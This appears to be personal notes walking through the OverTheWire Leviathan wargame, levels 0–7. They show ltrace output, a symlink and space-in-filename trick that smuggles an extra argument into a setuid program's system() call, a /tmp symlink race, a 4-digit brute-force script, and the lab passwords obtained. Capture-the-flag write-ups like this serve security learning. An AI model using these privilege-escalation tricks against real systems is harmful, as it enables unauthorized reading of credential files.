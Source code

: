 # What we learned

- use `ltrace` to check libraries inside binary
- we can use symbolic links `ln -s <filename>` to get passwords
- if a function execute a file, try to rename the file as "file name.txt" and 
  create a sym link to "file" so that the system execute the sym link (level 2 -> 3)

%% ----------------------------------------------------

### Level 0

Flag: `leviathan0`


### Level 0 -> Level 1

Goal: Have the reflex to use `ls -la` to find hidden files

```
>>> ssh leviathan0@leviathan.labs.overthewire.org -p 2223
>>> cd ../leviathan0
>>> ls -la
>>> vi .backup
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is PPIfmI1qsA" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>

```

Flag: `PPIfmI1qsA`

%% ----------------------------------------------------

### Level 1 -> Level 2

Goal: Use `ltrace` to find what libraries the binary uses

```
>>> ssh leviathan1@leviathan.labs.overthewire.org -p 2223

1. find which functions is called
>>> ltrace ./check

__libc_start_main(0x80491e6, 1, 0xffffd4e4, 0 <unfinished ...>
printf("password: ")                                   = 10
getchar(0xf7fbe4a0, 0xf7fd6f80, 0x786573, 0x646f67password: 1
)    = 49
getchar(0xf7fbe4a0, 0xf7fd6f31, 0x786573, 0x646f67)    = 10
getchar(0xf7fbe4a0, 0xf7fd0a31, 0x786573, 0x646f67
)    = 10
strcmp("1\n\n", "sex")                                 = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                   = 29
+++ exited (status 0) +++

The password is "sex"

2. Enter the password to get the flag
>>> ./check
>>> sex
>>> whoami // leviathan2
>>> cat /etc/leviathan_pass/leviathan2
mEh5PNl10e
```

Flag: `mEh5PNl10e`



%% ----------------------------------------------------

### Level 2 -> Level 3 (REVIEW!)

Goal: Create file with space with symlinks to the password


```
>>> ssh leviathan2@leviathan.labs.overthewire.org -p 2223

1. try to execute printfile
>>> printfile

*** File Printer ***
Usage: /home/leviathan2/printfile filename

2. create tmp dir to make some experiments
>>> mkdir /tmp/yuki
>>> touch tmp.txt
>>> ~/printfile tmp.txt
>>> ltrace ~/printfile tmp.txt

__libc_start_main(0x80491e6, 2, 0xffffd4a4, 0 <unfinished ...>
access("tmp.txt", 4)                                   = 0
snprintf("/bin/cat tmp.txt", 511, "/bin/cat %s", "tmp.txt") = 16
geteuid()                                              = 12002
geteuid()                                              = 12002
setreuid(12002, 12002)                                 = 0
system("/bin/cat tmp.txt"cat /etc/leviathan_pass/leviathan3
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                 = 0
+++ exited (status 0) +++

We see that the system calls /bin/cat and the file name. we try to 
execute program with file with space so that we call `/bin/cat pass file.txt`

3. get the flag by creating new file and symbolic link
>>> touch "pass file.txt"
>>> ln -s /etc/leviathan_pass/leviathan3 pass
>>> ~/printfile "pass file.txt" 
Q0G8j4sakn
/bin/cat: file.txt: No such file or directory

```

Flag: `Q0G8j4sakn`


%% ----------------------------------------------------

### Level 3 -> Level 4

Goal: 


```
>>> ssh leviathan3@leviathan.labs.overthewire.org -p 2223

>>> ltrace ./level3 

__libc_start_main(0x80492bf, 1, 0xffffd504, 0 <unfinished ...>
strcmp("h0no33", "kakaka")                             = -1
printf("Enter the password> ")                         = 20
fgets(Enter the password> 1234
"1234\n", 256, 0xf7fab620)                       = 0xffffd2dc
strcmp("1234\n", "snlprintf\n")                        = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                             = 19
+++ exited (status 0) +++

We see that we compare our input with "snlprinf"

>>> ./level3 
Enter the password> snlprintf
[You've got shell]!
>>> whoami
leviathan4
>>> cat /etc/leviathan_pass/leviathan4
AgvropI4OA
```

Flag: `AgvropI4OA`


%% ----------------------------------------------------

### Level 4 -> Level 5

Goal: 


```
>>> ssh leviathan4@leviathan.labs.overthewire.org -p 2223

1. see what's in the trash
>>> ls -la
>>> cd .trash
>>> ./bin
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010 

2. convert to ascii: https://www.binaryhexconverter.com/binary-to-ascii-text-converter
EKKlTF1Xqs

```

Flag: `EKKlTF1Xqs`


%% ----------------------------------------------------

### Level 5 -> Level 6

Goal: create symbolic link to password if file doesn't exist


```
>>> ssh leviathan5@leviathan.labs.overthewire.org -p 2223


1. try to execute binary
>>> ./leviathan5
Cannot find /tmp/file.log

2. use ltrace
>>> ltrace ./leviathan5 
__libc_start_main(0x8049206, 1, 0xffffd4f4, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                            = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++

we see that the file /tmp/file.log doesn't exist. create a symlink to open 
the password

3. create symlink
>>>  ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
>>> ./leviathan5 
YZ55XPVk2l

```

Flag: `YZ55XPVk2l`

%% ----------------------------------------------------

### Level 6 -> Level 7

Goal: Brute Force

```
>>> ssh leviathan6@leviathan.labs.overthewire.org -p 2223

1. check what binary does
>>> ./leviathan6
usage: ./leviathan6 <4 digit code>
>>> ./leviathan6 1234
Wrong

2. Brute force the binary: try all 4 digits combination

brute.sh: 

    #!/bin/bash

    for i in {0000..9999} 
    do 
	    ~/leviathan6 $i
    done

>>> chmod +x brute.sh
>>> ./brute.sh

3. get the password once we are in the shell
>>> cat /etc/leviathan_pass/leviathan7
8GpZ5f8Hze

```

Flag: `8GpZ5f8Hze`


%% ----------------------------------------------------

### Level 7 -> Level 8

Goal: 


```
>>> ssh leviathan7@leviathan.labs.overthewire.org -p 2223
```

Flag: ``




